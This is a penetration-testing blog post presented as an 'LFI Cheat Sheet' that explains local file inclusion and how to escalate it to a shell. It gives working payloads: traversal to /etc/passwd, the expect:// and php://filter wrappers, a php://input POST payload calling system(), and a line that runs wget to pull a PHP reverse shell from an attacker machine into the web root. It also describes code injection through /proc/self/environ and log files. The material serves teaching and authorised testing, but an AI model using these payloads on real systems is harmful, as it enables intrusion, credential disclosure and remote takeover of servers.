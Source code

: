 ```yaml
---
layout: blog_item
title: "LFI Cheat Sheet"
date:   2024-05-26 11:29:10
author: Dhruv Ambaliya
description: 'LFI Explained and the techniques to leverage a shell from a local file inclusion vulnerability. How to get a shell from LFI'
categories: [cheat-sheet]
tags:
- LFI
- 'Web Application Penetration Testing'
---
```


* list element with functor item
{:toc}

## What is an LFI Vulnerability?

LFI stands for **Local File Includes** - it's a file local inclusion vulnerability that allows an attacker to include files that exist on the target web server. Typically this is exploited by abusing dynamic file inclusion mechanisms that don't sanitize user input.

<!--more-->
Scripts that take filenames as parameters without sanitizing the user input are good candidates for LFI vulnerabilities, a good example would be the following PHP script <code>foo.php?file=image.jpg</code> which takes <code>image.jpg</code> as a parameter.  An attacker would simply replace <code>image.jpg</code> and insert a payload. Normally a directory traversal payload is used that escapes the script directory and traverses the filesystem directory structure, exposing sensitive files such as <code>foo.php?file=../../../../../../../etc/passwd</code> or sensitive files within the web application itself. Exposing sensitive information or configuration files containing SQL usernames and passwords.

Note: In some cases, depending on the nature of the LFI vulnerability it's possible to run system executables.

## How to get a Shell from LFI

Below are some techniques I've used in the past to gain a shell on systems with vulnerable LFI scripts exposed.

<hr>

### Path Traversal aka Directory Traversal

As mentioned above Traverse the filesystem directory structure to disclose sensitive information about the system that can help you gain a shell, usernames / passwords etc.

<hr>

### PHP Wrapper expect:// LFI

Allows execution of system commands via the php expect wrapper, unfortunately this is not enabled by default.

An example of PHP expect:

{% highlight bash%}
http://127.0.0.1/fileincl/example1.php?page=expect://ls
{% endhighlight %}


Below is the error received if the PHP expect wrapper is disabled:  

{% highlight php %}
Warning: include(): Unable to find the wrapper "expect" - did you forget to enable it when you<br> configured PHP? in /var/www/fileincl/example1.php on line 7 Warning: include(): Unable to find the<br> wrapper "expect" - did you forget to enable it when you configured PHP? in <br> /var/www/fileincl/example1.php on line 7 Warning: include(expect://ls): failed to open stream: No such file or directory in /var/www/fileincl/example1.php on line 7 Warning: include(): Failed opening 'expect://ls' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/fileincl/example1.php on line 7
{% endhighlight %}

<hr>

### PHP Wrapper php://file

Another PHP wrapper, <code>php://input</code> your payload is sent in a POST request using curl, burp or hackbar to provide the post data is probably the easiest option.  

![LFI php://file hackbar](/img/blog/web-for-penetration-testers/lfi-php-file-hackbar-pentesters-labs.png)

Example:
{% highlight bash %}
http://192.168.183.128/fileincl/example1.php?page=php://input
{% endhighlight %}

Post Data payload, try something simple to start with like: <code><? system('uname -a');?></code>

Then try and download a [reverse shell](https://highon.coffee/blog/reverse-shell-cheat-sheet/) from your attacking machine using:

{% highlight bash %}
<? system('wget http://192.168.183.129/php-reverse-shell.php -O /var/www/shell.php');?>
{% endhighlight %}


After uploading execute the reverse shell at <code>http://192.168.183.129/shell.php</code>

<hr>

### PHP Wrapper php://filter

Another PHP wrapper, <code>php://filter</code> in this example the output is encoded using base64, so you'll need to decode the output.

{% highlight bash %}
http://192.168.155.131/fileincl/example1.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
{% endhighlight %}

<hr>

### /proc/self/environ LFI Method

If it's possible to include <code>/proc/self/environ</code> from your vulnerable LFI script, then code execution can be leveraged by manipulating the <code>User Agent</code> parameter with Burp. After the PHP code has been introduced <code>/proc/self/environ</code> can be executed via your vulnerable LFI script.

<hr>

### /proc/self/fd/ LFI Method

Similar to the previous <code>/proc/self/environ</code> method, it's possible to introduce code into the proc log files that can be executed via your vulnerable LFI script. Typically you would use burp or curl to inject PHP code into the <code>referer</code>.

This method is a little tricky as the proc file that contains the Apache error log information changes under <code>/proc/self/fd/</code> e.g. <code>/proc/self/fd/2</code>, <code>/proc/self/fd/10</code> etc. I'd recommend brute forcing the directory structure of the /proc/self/fd/ directory with Burp Intruder + FuzzDB's [LFI-FD-Check.txt](https://github.com/tennc/fuzzdb/blob/master/dict/BURP-PayLoad/LFI/LFI-FD-check.txt) list of likely proc files, you can then monitor the returned page sizes and investigate.

<hr>

## fimap LFI Pen Testing Tool

fimap is a [tool used on pen tests](/blog/penetration-testing-tools-cheat-sheet/) that automates the above processes of discovering and exploiting LFI scripts. Upon discovering a vulnerable LFI script fimap will enumerate the local filesystem and search for writable log files or locations such as <code>/proc/self/environ</code>. Another tool commonly used by pen testes to automate LFI discovery is Kali's dotdotpwn, which works in a similar way.  

<hr>

### fimap + phpinfo() Exploit

Fimap exploits PHP's temporary file creation via Local File Inclusion by abusing PHPinfo() information disclosure glitch to reveal the location of the created temporary file.

If a phpinfo() file is present, it's usually possible to get a shell, if you don't know the location of the phpinfo file fimap can probe for it, or you could use a tool like OWASP DirBuster.


Enjoy.
